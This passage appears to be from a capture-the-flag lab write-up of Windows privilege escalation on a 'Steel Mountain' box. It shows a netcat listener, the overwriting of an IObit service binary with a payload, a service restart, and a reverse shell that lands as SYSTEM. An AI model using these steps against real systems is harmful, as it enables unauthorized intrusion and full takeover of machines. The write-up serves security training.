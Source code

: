 {% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# nc -nlvp 9001
Listening on 0.0.0.0 9001
```
{% endraw %}

<br />
Stop the servic from running.  Overwrite the binary in the path indicated.  Then restart the binary.

{% raw %}
```bash
PS > Stop-Service -Name "AdvancedSystemCareService9"
PS > cp Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
PS > Start-Service -Name "AdvancedSystemCareService9"
ERROR: Start-Service : Failed to start service 'Advanced SystemCare Service 9 (AdvancedSystemCareService9)'.
ERROR: At line:1 char:1
ERROR: + Start-Service -Name "AdvancedSystemCareService9"
ERROR: + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
ERROR:    ServiceCommandException
ERROR:     + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.StartServiceCommand
ERROR:
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.109.201 49303
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<redacteds>
C:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::154e:3c85:c145:2be1%14
   IPv4 Address. . . . . . . . . . . : 10.10.109.201
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:
```